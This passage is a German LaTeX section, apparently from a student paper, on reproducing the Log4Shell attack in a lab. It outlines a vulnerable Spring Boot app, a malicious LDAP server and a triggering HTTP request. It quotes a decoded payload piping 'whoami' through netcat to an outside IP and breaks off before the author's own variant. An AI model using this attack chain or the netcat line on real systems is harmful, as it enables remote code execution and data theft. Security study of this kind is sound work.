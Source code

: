 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden,
wurde im Versuchsaufbau ein Git Repository verwendet. Es beinhaltet eine Java Spring Boot Web Applikation, die noch mit
einer Java Version läuft, die noch anfällig für Log4shell Angriffe ist.\\
Desweiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren. Hierfür verwendet wurde ein weiteres
Git Repository in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird. Das Repository wurde jedoch aus GitHub entfernt. Das Kompilat des Schädlichen
\gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\\
Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist eine HTTP-Anfrage an das Zielsystem zu senden. In der Anfrage muss nun nurnoch die IP-Addrese mit Port angegeben werden
unter denen der \gls{ldap}-Server erreichbar ist.

\bigskip

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet. Daher liegt das auszuführende Skript als base64-encoded String vor. Die Befehle,
die hier der Reihe nach ausgeführt werden sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}\\
Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Revers Engineert werden. Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:\\



